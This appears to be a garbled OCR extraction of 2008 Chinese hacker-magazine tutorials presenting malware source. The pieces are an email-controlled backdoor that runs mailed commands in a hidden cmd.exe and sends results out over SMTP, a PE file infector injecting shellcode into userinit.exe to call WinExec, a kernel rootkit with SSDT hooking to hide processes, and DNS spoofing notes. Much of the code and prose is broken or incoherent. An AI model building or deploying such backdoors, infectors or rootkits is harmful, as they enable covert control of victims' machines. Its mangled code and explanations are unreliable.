HANDLE hRemoteThread = NULL;
HANDLE hThread = NULL;
HANDLE hProcess = NULL;
```

```cpp
hModule=GetModuleHandle("kernel32.dll");
```


```
THREAD_START_ROUTINE pStartThread=
(THREAD_START_ROUTINE)GetProcAddress(hModule,"FreeLibrary");
hRemoteThread=CreateRemoteThread(hProcess,NULL,0,pStartThread,lpRemoteThread,0,hThread);
WaitForSingleObject(hThread,INFINITE);
```

# PROGRAMMING ANALYSIS

需要发送邮件，用实现这个功能的函数：

```c
int sendmail(MAIL *mail) {
    char *mail_add=mail->mail_add;
    char *mail_from=mail->mail_from;
    char *mail_to=mail->mail_to;
    char *username=mail->username;
    char *password=mail->password;
    char data[1024];
    strcpy(data, "from: ");
    strcat(data, mail_from);
    strcpy(data, "\n");
    strcat(data, mail_to);
    strcpy(data, "\n");
    strcat(data, mail->subject);
    strcpy(data, "\n");
    strcat(data, mail->content);
    strcat(data, "\n");
    // // Base64 编码
    WSADATA data;
    unsigned-short version;
    version=0x0002;// version_1.0版本
    WSASStartup(version, &data);
    sock=socket(AF_INET,SOCK_STREAM,0);
    host=gethostbyname(mail->host);
    mail_add->sin_addr.s_addr=((unsigned long *)host->h_addr[0]);
    post->h_addr_list=0;
    mail_add->sin_family=AF_INET;
    mail_add->sin_port=htons(25);
    if(connect(sock, (struct sockaddr *)mail_add, sizeof(mail_add))<0)
        return -1;
    if(quit(0))
        return 1;
    char *buffer=malloc(255);
    recv(sock,buffer,255,0);
    memset(buffer,0,255);
    // // 发送 SMTP 服务器
    send(sock,"HELLO LIKKZ\r\n",12,0);
    if(ret<0)
        if(quit(0))
            return 1;
    ret=recv(sock,buffer,255,0);
    if(ret<0)
        if(quit(0))
            return 1;
    memset(buffer,0,255);
    // // 身份验证请求
    send(sock,"AUTH LOGIN\r\n",12,0);
    recv(sock,buffer,255,0);
    if(buffer[0]=='2'&buffer[1]=='5')
```

```c
quit(0);
return 1;
memset(buffer,0,255);
send(sock,buffer,strlen(buffer),0);
// // Base64 编码密码
strcat(buffer,base64_encode(password),c_str);
strcat(buffer,"\r\n");
send(sock,buffer,strlen(buffer),0);
memset(buffer,0,255);
recv(sock,buffer,255,0);
if(buffer[0]=='2'&buffer[1]=='5')
    quit(0);
return 1;
memset(buffer,0,255);
// // 发送邮件命令
send(sock,"MAIL FROM:",12,0);
strcat(buffer,mail_from,c_str);
strcat(buffer,"\r\n");
send(sock,buffer,strlen(buffer),0);
memset(buffer,0,255);
recv(sock,buffer,255,0);
if(buffer[0]=='2'&buffer[1]=='5')
    quit(0);
return 1;
memset(buffer,0,255);
// // 发送邮件命令
send(sock,"RCP TO:<",12,0);
strcat(buffer,mail_to,c_str);
strcat(buffer,"\r\n");
send(sock,buffer,strlen(buffer),0);
memset(buffer,0,255);
recv(sock,buffer,255,0);
if(buffer[0]=='2'&buffer[1]=='5')
    quit(0);
return 1;
memset(buffer,0,255);
send(sock,"DATA\r\n",6,0);
recv(sock,buffer,255,0);
if(buffer[0]=='2'&buffer[1]=='5')
    quit(0);
```

www.hacker.com

《版权》2008 酷博客

# PROGRAMMING ANALYSIS

```c
strcpy(buffer,getdata);
strncpy(buffer,input,"\0");
// 登录函数
memcpy(buffer,strlen(buffer),0);
memset(buffer,0,255);
recv(s,buffer,255,0);
if(buffer==0)
    quit(s);
return 1;
```

// 登录POP3服务器的函数为了保证字符的完整，这次检查成功了一次。这里用`set`用于调试

```c
realcmd(rdmail);
char *cmd=trim(pop3_subject);
send(s,cmd,"\0");
memset(rdmail->pop3_content,0,1024);
continue;
realcmd(rdmail);
```

// 控制登录命令，不是连接结果

```c
trim(cmd,pop3_subject);
printf("%s\n",cmd);
printf("%s\n",rdmail->pop3_content);
printf("%d\n",1024);
execmd(rdmail->pop3_content,cmd);
```

// 登录处理执行命令并提取结果的函数使用了OS命令重定向，极大简化了功能，代码如下：

```c
void excmd(char *cmd,char *result){
    strncpy(cmd,input,200);
    strcat(cmd," > ");
    strcat(cmd,"result.txt");
    strcat(cmd," &");
    // 执行系统命令，将结果定向到文件
    h=ShellExecute(NULL,"open","cmd.exe",cmd,NULL,HIDE);
    WaitForProcess(h,INFINITE);
    printf("%s\n",result);
    Sleep(2000);
}
```

// 读取执行结果

```
int i=0;
while(fread(p)
```

上面是实现手机控制的内核函数，现在来写程序：

```c
void main(char *argc, char *argv[]){
    if(argc==2&&strcmp(argv[1],"login")==0)
        hide();//隐藏后台OS界面
    RDMAIL(rdmail=0);
    read_config(rdmail);// 读取配置文件
    MAIL(mail=0);
    sendcmd(s,cmd);// 读取接收信息
    while(1){
        Sleep(5000);
    }
}
```

至于，处理队列的函数已经完毕，其他的细节就不再详细分析了，大家可以查阅源码的实现。下面再介绍一下编写的方法：

## 注册邮箱

首先注册一个免费邮箱，点击登录选择邮箱，按照提示确认按钮后，并在手机上如图所示，之后用`mail.com`去注册一个免费邮箱。如果用`gmail.com`，注册邮箱中的其后，打开并编辑`ReadMail`的配置文件，将信息修改为邮箱账号和密码后。


图 3

发送命令的方法是短信`@host.com(cmd)` `cmd`控制命令“发送”到163，一条控制一毛钱，便宜的，接收命令免费，不用使用邮件形式接收

# PROGRAMMING ANALYSIS

费回，是否能收到新邮件提示后再次返回“回”读取，如果你不需要执行该命令的能力，可以通过命令中挂起标题为`cmd`的立即符，邮箱中的`test@sock.com`是已经注册的邮件邮箱，程序执行结果后，如果想要显示窗口的话，在程序的时候加上`-s`参数。我开头通过测试程序，3小时后发现错误，需要注意的是，控制命令中的路径不能包含空格，如果命令路径中有空格，将路径用引号括起来，这样就可以给大家提供几个例子，具体如下：


```cmd
cmd /ver // 获取 Windows磁盘信息
cd /d // 切换目录
cd "C:\Program Files\MediaPlayer\wmplayer\music\i.mp3"
// 切换 Windows Media Player 并播放 i.mp3
cmd d: // 播放 i.mp3
```

总之，控制命令执行后的所有命令，熟练使用这个程序，只有你想不到的，没有你做不到的。


适合读者 编码者

- 前置知识 VC

## DNS 攻击原理、

## 实现监控


## DNS 攻击检测

在日常工作中，我们常见的域名 (DNS) 三种管理面的黑客攻击，主要包括以下几种：
- 通过利用黑客手段渗透域名管理配置
- 将域名的记录指向黑客可以控制的的DNS服务器
- 或者在 DNS 攻击期间增加攻击者记录，从而让访问者解析出错，导致遭受攻击

### 1) DNS 数据结构

```c
typedef struct {
    unsigned short id;
    unsigned short flags; // 查询权限标识
    unsigned short flags; // DNS头部与相同
    unsigned short flags; // 标志：QR | opcode | AA | R | rcode
```

```c
unsigned short query_count; // 回答数量
unsigned short authority_count; // 权威数量
unsigned short additional_count; // 其他资源数量
```

in `flags` 中，`QR`字段为0表示响应或查询，`AA`用于判断是否为缓存，`TC`字段用于判断是递归查询，`RA`用于判断可用，位字段为1，`Rcode`字段设置。

### 2) DNS 查询结果

```c
typedef struct {
    unsigned short id; // 查询号，其标志位为0表示查询
    unsigned short type;
    unsigned short class;
```

域名缓存 (服务器)：通过黑客手段控制服务，将域名的记录写入缓存，让使用服务器得到导致DNS攻击，DNS攻击中使用报文使用`ID`字段可能会伪造查询，目前有三种方法域名循环，从一个指向查询请求（同步和性的），这可能导致数据的源是黑客的主机，因此DNS查询结果导致攻击，使得攻击者在网络中的查询或拒绝。DNS攻击放大：

- 查询类型

```c
unsigned short answers:
```

## PROGRAMMING 入门

### 3) DNS结构

```c
typedef struct {
    unsigned char *name;
    unsigned short type;
    unsigned short classes;
    unsigned int ttl;
    unsigned short length;
    unsigned int addr;
} dns_query;
```

// 查询域名的
// 查询类型
// 类类型
// 生命周期
// 数据长度
// 资源地址

## 解析头部

```c
struct dns_query *query = (struct dns_query*)malloc(strlen("www.23.com")*sizeof(unsigned char));
memcpy(query->name, "www.23.com", strlen("www.23.com"));
query->type = IN_A;
```


```text
// 获取服务器地址，如果为2则是重定向
// 找到服务器地址
// 连续查询，第一步是域名索引
// attack.ip伪造为攻击者的IP
// stepheader.dest=DNServer;

| DNS | Dns |
|---|---|
| QUERY | queryResponse |
| RESPONSE | answerResponse |
| IPHEADER | ipHeader |
| dnsid = 0x0007 |
| dnsflags = 0x8000 |
| RD | 1表示查询 |
| dnsquery.host = ? |
| dnsanswer.host = ? |
| dnsauth.host = ? |
| dnsadditional.host = ? |
| 0 表示查询结束 |
| 问答记录 |
| 权威记录 |
| 资源记录 |
| 0 结束，域名是www.23.com，dns.additional. |
```


通过以UDP协议发送DNS数据，我们可以向DNS服务器发送查询请求，DNS服务器的回答将会发送给请求者。一些攻击者会伪造查询请求实施攻击，同时隐藏自己的攻击来源。在发送数据时，我们可以用IP欺造源地址，从而就可以防御在2007年第期发表的对于DNS攻击的防御，其实简单了，我们只需要通过拦截TCP和UDP端口53的数据就可以了。

适合：编程爱好者、木爱好者

# 病毒启动

## 病毒系统文件实现启动


在很多系统运行的过程中，病毒是一种比较隐藏的办法，可以做到被感染的病毒大小小到忽略，而且不需要重启，很难发现。下面我们将详细介绍这种方法。

### 分析

方法简单，只需要将它程序的全部代码加载到系统文件中，让它在系统文件运行时。为了实现功能，我们需要这样做：在找到系统文件的空处，每个文件末尾留有足够的空间以便加载我们的代码。我们通过修改系统文件的入口点添加的代码，如果是运行不同的代码，就需要修改系统文件的入口来继续系统。

正如大家所看到的，涉及到对PE文件的操作，由于需要对PE文件具有足够的权限，介绍PE文件结构的内容不是我们内容的，太明白的，可以参考前一个章节。本文将简单说明一些相关的知识。我们知道，PE文件的头部是`IMAGE_NT.OptionalHeaderFileAlignment`。举个例子，如果`FileAlignment`是任意，那么意味着起始地址是100的倍数，第一个文件偏移300开始并且是10的倍数，下一块的起始地址也必须是10的倍数，500开始，这样就会在文件偏移300到500的地方有一些未被使用的空间，导致每个文件的结尾会有多或少的剩余的空间。

### PROGRAMMING

```text
// 查询，通常，第一步是域名索引
```

### PROGRAMMING ANALYSE

得到了`Kernel32.dll`，很容易搜索`Kernel32.dll`导出得到`GetProcAddress`的地址了。方法如下：首先定位到要导出的地址，使用`NumberOfNames`的值为索引进行循环，在循环中通过`AddressOfNames`的函数名来构造索引，在循环中使用`GetProcAddress`并在数据索引中，通过相同值从`AddressOfOrdinals`指向的数组中找到对应的地址，再通过这个`AddressOfFunctions`指向的函数导出的地址值就是`GetProcAddress`的RVA了，通过`GetProcAddress`的地址就可以获取`WinExec`的地址了，此，所有问题解决了。

### 代码表示

成功了这么长的字符串不是不容易的！接下来是演示如何注入到`userinit.exe`中的`AddCode`，在`userinit.exe`中先行运行，代码如下：

```asm
ADD_CODE_START equ this by
push eax
mov eax, [fd]
mov eax, [ecx]
mov esi, [edi+1]
push edi
mov eax, [esi+8]
; 得到Kernel32的地址，参考上文的分析
mov eax, IMAGE_DOS_HEADER.fd [edi]
mov esi, IMAGE_NT_HEADERS [edi+0x3c]
mov OptionalHeader.DataDirectory.VirtualAddress
; 得到导出RVA
add esi, eax
asm eax [esi].IMAGE_EXPORT_DIRECTORY
mov eax, [esi].AddressOfNames
add esi, edx
push 00007337
; 在循环中找到GetProcAddress
push 0x27856426
push 0x4196f072
push 0x30746457
push esp
xor ecx, ecx
repeat
mov edi, [edi]
add edi, edx
mov esi, [esi+4]
push ecx
mov ecx, 0h
; 得到GetProcAddress的地址，返回 0
```

```asm
reg cmp eax
break if zero
; 循环结束
pop ecx
pop esi
add esi, 4
inc eax
until eax == [esi].AddressOfOrdinals
pop ecx
mov eax, [esi+ecx*2]
; 导出地址
mov eax, word ptr [esi+2]
add esi, eax
mov edi, [AddressOfFunctions
```

```asm
; 得到GetProcAddress地址
push 00006578
; 找到WinExec地址
push 0x44656e67
push esp
push esp
call edi
; 用GetProcAddress获取WinExec地址
push 0000044d3d
; 找到CMD地址
push esp
push SW_SHOW
push esp
push [esi+4]
call eax写入WinExec
```

```asm
db 68
push xxxxxxxx ; 命令行参数的第一个OffsetAddr
db 68  ; 用指针来保存参数地址和第一个字符串-第一个参数；push到入口地址
call word ptr [esp]
mpmp esp, word ptr [esp]
; 找到入口地址
ADD_CODE_END equ this by
ADD_CODE_LENGTH equ offset:ADD_CODE_END
ADD_CODE_START
; 代码标记
```

由于还原代码中使用的字符串比较小，所以我们使用了巧妙的方法，这可以避免因为代码布局导致的定位问题，位置可以随时查看。上的WinNT系统中运行进程未实现程序DLL--一，然后我们可以直接加载`kernel32.dll`从它得到的导出的地址了，这是为了增强代码的通用性，先获取了`GetProcAddress`的地址，再用`GetProcAddress`获取`WinExec`的地址，下面的代码载荷将被加载到`userinit.exe`。

```asm
.model /staticcall
```

# PROGRAMMING ANALYSE

> 热節目 ( 播 ) socket@hacker.com

```asm
option casenameopt
include windows.inc
include kernel32.inc
include user32.inc
include gdi32.lib
include user32.lib
const
HANDLE hFile = CreateFile("C:\System\test.exe",0x0...
```

已经打开了文件，0x8句，大小：0字节 导出地址VA：0x80

| 字段 | 说明 |
| :--- | :--- |
| `dd` | |
| `dd` | |
| `MapFile` | |
| `lpFile` | |
| `CodeLPRVA ?` | 映射后的代码VA |
| `CodeLPffs dd ?` | 映射后的代码文件指针 |
| `smsg` | |
| `dd` | |
| `include AddCode.asm` | |

```asm
or [exb].Characteristics,SCN_MEM_READ or SCN_MEM_EXECUTE;权限为可读和可执行属性
[exb].Max.VirtualSize,ADD_CODE_LENGTH
add [exb].Size,最大字节
add.exfile
```

```asm
invoke VirtualMemory,exb,offset,ADD_START,ADD_CODE_LENGTH;则写入到内存，0
mov [exb]OptionalHeader.EntryPoint
add [exb]OptionalHeader.ImageBase
image 1
push codeRVA
pop [exb]OptionalHeader.EntryPoint
add.codeRVA
add.exfile
```

```asm
CreateFileMapping(NULL,GENERIC_READ or GENERIC_WRITE,NULL,OPEN_EXISTING,FILEATTRIBUTE_NORMAL,0)
if hFile != NULL
invokes MapOfFile(hFile,FILE_MAP_WRITE or FILE_MAP_READ,0,0,0) 映射到内核
```

```asm
if pMap == NULL
invokes CloseHandle(hFile)
endif
add [exb],DOS_HEADER ptr [exb],NT_HEADERS
mov eax,0
add [exb],IMAGE_SECTION_HEADER,IMAGE_SECTION_HEADER
xor eax,ax
while eax < [exb].NumberOfSections遍历节
mov edi,[exb].SizeOfRawData
sub ecx,[exb].VirtualSize
if ecx < ADD_CODE_LENGTH;将代码节
add edi
```

```asm
add [exb],IMAGE_SECTION_HEADER
inc eax
jmp . 如果不是跳转则继续
mov eax,VirtualAddress:mov lpCodeVA 映射后的代码VA
add [exb],PointerToRawData
add [exb],VirtualSize 映射后的代码指针
```

这段代码使用了内存映射的方法来操作，可以使用`WriteFile`写入文件，因为`WriteFile`会引起文件的变化，另外，还需要`PAGE_MEM_READ`和`PAGE_MEM_EXECUTE`属性是可读和执行的。将以内存转换后，我们可以看到所示的运行，我们就能看到结果了这证明通过修改文件来实现变形。

| Offset | Value | Offset | Value | Offset | Value | Offset | Value |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 00000000 | 4D 5A | 00000004 | 0000 | 00000008 | 0000 | 0000000C | 0000 |
| 00000010 | 0000 | 00000014 | 0000 | 00000018 | 0000 | 0000001C | 0000 |
| 00000020 | 0000 | 00000024 | 0000 | 00000028 | 0000 | 0000002C | 0000 |
| 00000030 | 0000 | 00000034 | 0000 | 00000038 | 0000 | 0000003C | 0000 |
| 00000040 | 0000 | 00000044 | 0000 | 00000048 | 0000 | 0000004C | 0000 |
| 00000050 | 0000 | 00000054 | 0000 | 00000058 | 0000 | 0000005C | 0000 |
| 00000060 | 0000 | 00000064 | 0000 | 00000068 | 0000 | 0000006C | 0000 |
| 00000070 | 0000 | 00000074 | 0000 | 00000078 | 0000 | 0000007C | 0000 |
| 00000080 | 0000 | 00000084 | 0000 | 00000088 | 0000 | 0000008C | 0000 |
| 00000090 | 0000 | 00000094 | 0000 | 00000098 | 0000 | 0000009C | 0000 |
| 000000A0 | 0000 | 000000A4 | 0000 | 000000A8 | 0000 | 000000AC | 0000 |
| 000000B0 | 0000 | 000000B4 | 0000 | 000000B8 | 0000 | 000000BC | 0000 |
| 000000C0 | 0000 | 000000C4 | 0000 | 000000C8 | 0000 | 000000CC | 0000 |
| 000000D0 | 0000 | 000000D4 | 0000 | 000000D8 | 0000 | 000000DC | 0000 |
| 000000E0 | 0000 | 000000E4 | 0000 | 000000E8 | 0000 | 000000EC | 0000 |
| 000000F0 | 0000 | 000000F4 | 0000 | 000000F8 | 0000 | 000000FC | 0000 |
| 00000100 | 0000 | 00000104 | 0000 | 00000108 | 0000 | 0000010C | 0000 |
| 00000110 | 0000 | 00000114 | 0000 | 00000118 | 0000 | 0000011C | 0000 |
| 00000120 | 0000 | 00000124 | 0000 | 00000128 | 0000 | 0000012C | 0000 |
| 00000130 | 0000 | 00000134 | 0000 | 00000138 | 0000 | 0000013C | 0000 |
| 00000140 | 0000 | 00000144 | 0000 | 00000148 | 0000 | 0000014C | 0000 |
| 00000150 | 0000 | 00000154 | 0000 | 00000158 | 0000 | 0000015C | 0000 |
| 00000160 | 0000 | 00000164 | 0000 | 00000168 | 0000 | 0000016C | 0000 |
| 00000170 | 0000 | 00000174 | 0000 | 00000178 | 0000 | 0000017C | 0000 |
| 00000180 | 0000 | 00000184 | 0000 | 00000188 | 0000 | 0000018C | 0000 |
| 00000190 | 0000 | 00000194 | 0000 | 00000198 | 0000 | 0000019C | 0000 |
| 000001A0 | 0000 | 000001A4 | 0000 | 000001A8 | 0000 | 000001AC | 0000 |
| 000001B0 | 0000 | 000001B4 | 0000 | 000001B8 | 0000 | 000001BC | 0000 |
| 000001C0 | 0000 | 000001C4 | 0000 | 000001C8 | 0000 | 000001CC | 0000 |
| 000001D0 | 0000 | 000001D4 | 0000 | 000001D8 | 0000 | 000001DC | 0000 |
| 000001E0 | 0000 | 000001E4 | 0000 | 000001E8 | 0000 | 000001EC | 0000 |
| 000001F0 | 0000 | 000001F4 | 0000 | 000001F8 | 0000 | 000001FC | 0000 |
| 00000200 | 0000 | 00000204 | 0000 | 00000208 | 0000 | 0000020C | 0000 |
| 00000210 | 0000 | 00000214 | 0000 | 00000218 | 0000 | 0000021C | 0000 |
| 00000220 | 0000 | 00000224 | 0000 | 00000228 | 0000 | 0000022C | 0000 |
| 00000230 | 0000 | 00000234 | 0000 | 00000238 | 0000 | 0000023C | 0000 |
| 00000240 | 0000 | 00000244 | 0000 | 00000248 | 0000 | 0000024C | 0000 |
| 00000250 | 0000 | 00000254 | 0000 | 00000258 | 0000 | 0000025C | 0000 |
| 00000260 | 0000 | 00000264 | 0000 | 00000268 | 0000 | 0000026C | 0000 |


| 00000270 | 0000 | 00000274 | 0000 | 00000278 | 0000 | 0000027C | 0000 |

| 00000280 | 0000 | 00000284 | 0000 | 00000288 | 0000 | 0000028C | 0000 |

| 00000290 | 0000 | 00000294 | 0000 | 00000298 | 0000 | 0000029C | 0000 |

| 000002A0 | 0000 | 000002A4 | 0000 | 000002A8 | 0000 | 000002AC | 0000 |

| 000002B0 | 0000 | 000002B4 | 0000 | 000002B8 | 0000 | 000002BC | 0000 |

| 000002C0 | 0000 | 000002C4 | 0000 | 000002C8 | 0000 | 0000020 | 0000 |

| 00000200 | 0000 | 00000200 | 0000 | 00000208 | 0000 | 0000020 | 0000 |

| 00000000 | 4D 5A | 00000004 | 0000 | 00000008 | 0000 | 0000000C | 0000 |

图 1

`www.hacker.com`

《调试实例》2008 年修订版

# Windows Router

适合读者：编程爱好者

前置知识：

Rookit是一种对机器功能进行内部访问的程序，先进的Rookit很难被监视。最初的Rookit是有名的马，通过系统的`ps`文件来实现。这种修改会引起敏感系统模块或代码的变化，这种修改很容易被检测出来，内核Rookit现在非常普遍。它是驱动程序，可以对机器内核的访问。内核Rookit可以隐藏文件和程序，还可以注入到运行进程中。在Windows和Linux操作系统上，这种修改发生在内核后的这一个被加载驱动程序的系统中，就具有驱动程序和内核程序相同的权限。它的危险在于，内核系统的任何部分都受到影响，相应的数据可以再次修改，控制代码现在由你控制权限。


本文Rookit作为驱动程序加载在内核中的，这个简单的Rookit在Windows NT 4.0和Windows 2000/XP下测试过。由于我们的Rookit是驱动程序，所以我们必须创建驱动程序环境。在Windows XP...

在Windows中，驱动程序是工作在Ring0的。如图所示，基础驱动程序必须有一个DriverEntry参数，这个参数的类型是内核的入口函数。我们可以开发一个特定的在Ring0中运行的驱动程序，让一个被加密和读取的驱动程序，因为它可以改变它的行为，我们还能继续测试它。如果是"format and get"的驱动程序，我们可以重新启动计算机才能运行，我们可以在驱动程序系统中注册，然后通过系统的API控制驱动程序的卸载。但是，这种驱动程序很容易被检测到，这对于Rookit是不希望的。

```c
#include <ntddk.h>

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, 
    PLUNICODE_STRING pRegistryPath)
{
    return STATUS_SUCCESS;
    like main();
}
```

图1 驱动程序的基本结构

用户的程序通过打开一个文件使用驱动程序，驱动程序是一个文件对象，通过IRP的发送来实现。这些数据需要通过回调来处理这些IRPs。由于我们的驱动程序不需要和用户程序通信，所以我们不需要处理这些IRPs。

回调驱动函数，例如，可以简单实现：

```c
for (i = 0; i < IRP_MJ_MAX; i++)
driverObject->MajorFunction[i] = OnStatusDispatch;

NTSTATUS
OnStatusDispatch(
    PDEVICE_OBJECT DeviceObject,
    P IRP Irp)
{
    Irp->IoStatus.Status = STATUS_SUCCESS;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    return;
}
```

大部分Rookit不需要被卸载，一旦Rookit

# PROGRAMMING Analysis

被安装到系统中，当然希望它能一直装载在目标内存中，当我们需要修改或卸载程序时，卸载程序就必不可少的，为了确保程序被卸载，我们需要注册一个卸载函数，例如：提供一个函数指针。

5) 用`ControlService()`停止服务

6) 用`DeleteService()`删除服务

7) 用`CloseServiceHandle()`关闭服务查询

`theDriverObject->Unload = OnUnload;`

卸载函数很简单，代码如下：

```c
VOID OnUnload(PDRIVER_OBJECT DriverObject)
{
    DebugPrint(ROOTKIT, "Unload called");
}
```

总以上内容，一个简单的能够被装载和卸载的驱动程序代码如下：

```c
#include "tdd.h"
NTSTATUS OnUnloadDispatch(PDEVICE_OBJECT DeviceObject, PIR irp)
{
    irp->IoStatus.Status = STATUS_SUCCESS;
    IoCompleteRequest(irp, IO_NO_INCREMENT);
    return irp->IoStatus.Status;
}
VOID OnUnload(PDRIVER_OBJECT DriverObject)
{
    DebugPrint(ROOTKIT, "Unload called");
}
NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PDEVICE_OBJECT, PUNICODE_STRING StringPath)
{
    int i;
    debugPrint("My Driver Loaded");
    // Register a dispatch function.
    for (i=0; i<IRP_MAX_FUNCTION; i++)
        DriverObject->MajorFunction[i] = OnUnloadDispatch;
}
```

到为止，我们就可以写一个简单的驱动程序了。接面的是如何编写驱动程序加载的系统。假设，驱动程序存储在`C:\root_sys`，驱动程序的安装流程如下：

- 1) 用`SCMManager()`打开服务管理器

- 2) 用`CreateService()`创建一个服务，服务类为内核驱动

- 3) 用`OpenService()`获取服务句

- 4) 用`StartService()`启动服务

```c
#include <atx.h>
#include <windows.h>
#include <process.h>
void useService(char *name) { 
    printf("Loading: %s load driver from c:\\root_sys\\%s", n,p);
}
int main(int argc, char *argv[]) {
    if (argc[1]==2) {
        useService(argv[1]);
        exit(0);
    }
    // 创建驱动程序
    SC_HANDLE sh=OpenSCManager(NULL,NULL,SC_MANAGER_ALL_ACCESS);
    printf("Error OpenSCManager: %d", GetLastError());
    exit(1);
    // 创建服务
    SC_HANDLE rh=CreateService(sh,
    "_root",
    NULL,
    SERVICE_ALL_ACCESS,
    SERVICE_KERNEL_DRIVER,
    SERVICE_DEMAND_START,
    SERVICE_ERROR_NORMAL,
    "C:\\root_sys\\%s",
    NULL,
    NULL,
    NULL,
    NULL,
    NULL);
    printf("Error CreateService: %d", GetLastError());
    // 判断服务是否存在
    if (GetLastError()==ERROR_SERVICE_EXISTS)
    // 启动服务
    rh=OpenService(sh,
    "_root",
    SERVICE_ALL_ACCESS);
    printf("Error OpenService: %d", GetLastError());
    exit(1);
    else {
        printf("Error CreateService: %d", GetLastError());
        CloseServiceHandle(rh);
        exit(0);
    }
    // 创建驱动程序
    if (argc[1]==1)
}
```



# PROGRAMMING ANALYSE

```c
SERVICE_STATUS status;
printf("Opening Rootkit driver...\n"); //启动驱动器
SC_HANDLE sh= OpenSCManager(NULL,NULL,
SC_MANAGER_ALL_ACCESS);
if(!sh) {
    printf("Error OpenSCManager\n");
    exit(1);
}
// 启动服务
SC_HANDLE rh = OpenService(sh,
  "root_",
  SERVICE_ALL_ACCESS);
if(!rh) {
    printf("Error OpenService\n");
    CloseHandle(sh);
    exit(1);
}
// 停止服务
if(!ControlService(rh, SERVICE_CONTROL_STOP, &status)) {
    puts("could not stop service\n");
}
// 删除服务
if (!DeleteService(rh)) {
    puts("could not delete service\n");
}
CloseHandle(rh);
CloseHandle(sh);
} else {
    usage(0);
    return 0;
}
#include <windows.h>
#include <stdio.h>
typedef struct _UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
};
#define MIDL_PASS
```

上面的代码使用参数来注册和反注册驱动程序，使用新的`root_`启动程序。以上的方法是一种特殊的方法。如果他们使用Rootkit驱动用这种方法中容易检测到，使用未公开的API`ZwSystemInformation`能够隐藏API。如果使用这种方法，驱动程序不能挂载，除非计算机，另外我们可以在某些情况下多次加载驱动程序，而正常情况下只能一次。可以使用下面的代码加载程序。

`www.hacker.com` (黑客社区)2008年版所有

# PROGRAMMING Analyse

SYSTEM_INFORMATION_CLASS 包含一个整数

```c
SystemLoadImage(
    // 加载模块
    hModule = SystemLoadImage(NULL, "kernel32.dll")
);
printf("Loaded: %p\n", hModule);
```

信息，然后返回修改后的函数。这些指针全局存储，在x86系统通过汇编指令我们在挂钩期间替换源函数的地址，然后再次重启。新方法的实现，通过`QueryInformation`返回的地址来修改函数的地址，我发现不能如此笨拙，除了其他方法，我需要遍历原文来实现对结果的修改。

通过上面的课程，我们已经学会了如何开发一个可以挂钩的驱动程序了，下一步我们将学习如何进行函数、目录、进程隐藏，我们将介绍如何进行特定的挂钩函数需要调试，非常困难。在很多系统中，我们将原始函数保存到Hook函数中，让它跳转回原始函数，这些指针通常存在内存中的数据库。

在这里将学习如何一个挂钩系统服务表（SSDT）使用原始函数进行挂钩。SSDT可以基于函数索引来引起，定义的内存中，`ServiceTable`由内核导出的表，这个结构如下：

```c
typedef struct ServiceDescriptor {
    unsigned int ServiceTable;
    unsigned int ServiceTableBase;
    unsigned int NumberOfServices;
    unsigned char *ParamTable;
};
```

`ServiceTable`为系统服务表的编码，`NumberOfServices`是为了指定的数量，该函数在`ServiceTable`中的起始位置，所有的SSDT函数都使用操作码为LONG，例如此处`func+1`为该函数的索引，可以使用定义的函数来挂钩SSDT。

```c
STATUS_OK HookQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS SystemInformationClass,
    PVOID SystemInformation,
    ULONG InformationLength,
    PULONG ReturnLength
);
```

图2 挂钩函数调用基础

我们保存`QuerySystemInformation`原始地址，然后使用自己的Hook函数替换原来的地址。当我们修改这个地址时，首先要临时挂钩并防止内核冲突，修改完毕后再重新打开，我们只用了自己的函数`NewQuerySystemInformation`：

```c
#define HOOK_SYSCALL(Function, Hook) \
    #define func ((PLONG)Hook)() (LONG)MappedSystemCall(Function)(__VA__)
#define UNHOOK_SYSCALL(Function, Hook) \
    #define func ((PLONG)Hook)() (LONG)MappedSystemCall(Function)(__VA__)
```

通过以上，相信大家已经学会了如何开发一个可以挂钩和数据的驱动程序，以及如何挂钩原始API函数，对于这些基础，现在就不轻易发布自己的内核级Rootkit了。

# PROGRAMMING ANALYSE

适合读者：编程爱好者

前置知识：VC

## 用 Hook API 实现进程调试

文/ Zero [CUST&AD]

关于进程的隐藏有很多方法可以实现，黑客以前的杂志也提到过不少。我就不想隐藏进程，哎啊，还有什么方法可以实现进程守护？之前我学了一个AV版本的调试方法，进程守护的方式是通过两个进程之间相互监控来实现别的，这种方法虽然无法干扰，但是可以通过Hook使用多种技术就能干掉。并不完美，两个进程之间会感到尴尬，经过我研究，通过Hook技术实现了守护。

## 原理分析

Hook API 是好东西，虽然不值得提Hook API，但绝对并不是没事了。像金山的屏取调试就是用这种技术实现的。你要获取`HookText`函数，调试到的数据个数，就是屏幕上的文字。进行操作了，对于进程守护，如果一个进程的结果是另一个进程，用什么方法可以先获取调试的HANDLE，只要用Hook打开了进程之后，API指向我定义的`My_OpenProcess`函数，就能实现进程守护了。

有两种方法可以实现HOOK"插件式"，一种是嵌入式，另一种就是用第一种方法来实现，调试容易。

